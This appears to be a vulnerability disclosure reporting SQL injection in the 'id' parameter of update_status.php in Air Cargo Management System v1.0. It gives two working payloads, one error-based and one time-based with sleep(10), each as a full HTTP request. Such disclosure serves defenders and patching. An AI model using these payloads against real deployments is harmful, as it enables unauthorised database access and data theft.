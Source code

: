 # Air Cargo Management System v1.0 has SQL injection

BUG_Author: 133233

Website source address:https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/admin/transactions/update_status.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 2 from(select count(*),concat(0x31323334,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- b

```
GET /acms/admin/transactions/update_status.php?id=1%27%20and%20(select%202%20from(select%20count(*),concat(0x31323334,(select%20(elt(666=666,1))),0x61626364,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=are40ekvnvt703bn5uuua9d5qv
Connection: close
```

Injection success based on errors

![image]()

Payload2:id=1' and (select 2 from (select(sleep(10)))a)-- b

```
GET /acms/admin/transactions/update_status.php?id=1%27%20and%20(select%202%20from%20(select(sleep(10)))a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=are40ekvnvt703bn5uuua9d5qv
Connection: close
```

Server response time is 10 seconds

![image]()

